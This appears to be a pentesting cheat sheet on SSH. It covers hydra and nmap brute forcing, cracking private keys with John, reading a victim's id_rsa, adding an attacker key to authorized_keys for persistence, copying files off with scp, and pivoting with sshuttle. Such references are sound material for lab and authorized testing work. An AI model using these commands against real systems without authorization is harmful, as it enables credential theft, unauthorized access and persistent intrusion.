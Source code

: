 ```yaml
---
title: Secure Shell (SSH) Pentesting
desc: Default port is 22.
tags: [22, Netcat, Nmap, SSH]
alts: []
render_with_liquid: false
---
```


## Enumeration

1. **Use Nmap**

    ```sh
    nmap --script ssh-brute -p 22 <target-ip>
    nmap --script ssh-auth-methods --script-args="ssh.user=username" -p 22 <target-ip>
    nmap --script ssh-* -p 22 <target-ip>
    ```

2. **Brute Force Credentials**

    ```sh
    hydra -l username -P passwords.txt <target-ip> ssh
    hydra -L usernames.txt -p password <target-ip> ssh

    # Specific ports
    hydra -l username -P passwords.txt -s 2222 <target-ip> ssh
    hydra -l username -P passwords.txt ssh://<target-ip>:2222
    ```

3. **Crack SSH Private Key**

    First of all, you need to format the private key to make John to recognize it.

    ```sh
    ssh2john private_key.txt > hash.txt
    ```

    Crack the password of the private key using the formatted text.

    ```sh
    john --wordlist=wordlist.txt hash.txt
    ```

<br />

## Investigation

1. **Useful Tools**

- **[ssh-audit](https://github.com/jtesta/ssh-audit){:target="_blank"}**

    SSH server and client auditing.

    ```sh
    ssh-audit <target-ip>
    ```

2. **Banner Grabbing**

    ```sh
    nc <target-ip> 22
    ```

<br />

## Connect

1. **Connect using Credential**

    If you know target credential, you can connect remote SSH using it.

    ```sh
    ssh username@<target-ip>
    ssh username@<target-ip> -p 22

    # Without username
    ssh 10.0.0.1
    ```

    If you got the error message "...no matching host key type found. Their offer: ssh-rsa",

    ```sh
    ssh -o HostKeyAlgorithms=+ssh-rsa username@10.0.0.1
    ```

    - **Execute Commands after Connecting**

        ```sh
        ssh username@<target-ip> 'ls -l'
        ```

    - **Test Connection**

        ```sh
        ssh -T username@10.0.0.1
        ssh -T username@10.0.0.1 -vvv
        ```

    - **Connect to Windows via Active Directory**

        ```sh
        ssh domain-name\\username@domain-controller
        ```

2. **Connect using the Existing Private Key**

    1. **Copy the Content of id_rsa (Private Key)**

        In remote machine,

        ```sh
        cat /home/<victim-user>/.ssh/id_rsa
        ```

    2. **Create New Private Key in Local Machine**

        ```sh
        echo 'copied content of id_rsa' > private_key.txt
        ```

        Don't forget to change permission this file. Otherwise, you cannot connect remote server.

        ```sh
        chmod 600 private_key.txt
        ```

    3. **Connect using Private Key**

        ```sh
        ssh -i private_key.txt victim-user@<remote-ip>
        ```

<br />

## Transfer File From Remote to Local

1. **Use SCP**

    **SCP (Secure Copy)** relies on SSH. So you need to use SSH's username/password.

    - **In Target Machine**

        ```sh
        scp ./example.txt local-user@<you-local-ip>:./example.txt
        ```

    - **In Your Local Machine**

        ```sh
        scp target-user@<target-ip>:./example.txt .
        ```

<br />

## Create SSH Keys

Use **ssh-keygen**.

1. **Generate Keys**

    ```sh
    ssh-keygen

    # Specify the output file
    ssh-keygen -f key
    # Specify Ed25519
    ssy-keygen -t ed25519
    ```

2. **Install SSH Key**

    In target machine,

    ```sh
    ssh-copy-id username@10.0.0.1
    ```

<br />

## Generate SSH Keys and Set Up Public Key to Connect Remote Machine

1. **Check if authorized_key Exists in Remote Machine**

    ```sh
    ls /home/<remote-user>/.ssh/authorized_key
    ```

    If it exists, you may be able to connect SSH with your keys as victim user.

2. **Generate SSH Keys**

    ```sh
    ssh-keygen -f key

    # Copy the content of publick key
    cat ./key.pub
    ```

    Then copy the content of public key you generated.

3. **Add the Content of Publick Key to authorized_keys**

    In remote machine,

    ```sh
    echo '<content of id_rsa.pub' >> /home/<victim-user>/.ssh/authorized_keys
    ```

<br />

## SSH Server

1. **Start SSH Server**

    ```sh
    /etc/init.d/ssh start
    # or
    systemctl start ssh
    ```

2. **Check SSH Running**

    ```sh
    ps -e | grep ssh
    ```

<br />

## SSH Proxy Server

- **Use Sshuttle**

    **[sshuttle](https://github.com/sshuttle/sshuttle){:target="_blank"}** is transparent proxy server that works as a poor man's VPN. Forwards over ssh.

    ```sh
    sshuttle -r username@<remote-ip> <remote-ip>/24

    # Automatically determine subnet
    sshuttle -r username@<remote-ip> -N

    # Using private key
    sshuttle -r username@<remote-ip> --ssh-cmd "ssh -i private_key" <remote-ip>/24

    # Exclude the specific ip (-x)
    sshuttle -r username@<remote-ip> <remote-ip>/24 -x <remote-ip>
    ```

    Then you can access to other networks.

    - **Troubleshooting**

        If you get the error "Failed to flush caches: Unit dbus-org.freedesktop.resolve1.service not found...", you need to flush DNS cache.


        ```sh
        sudo systemctl enable systemd-resolved.service
        sudo resolvectl flush-caches
        ```

        Run sshuttle again.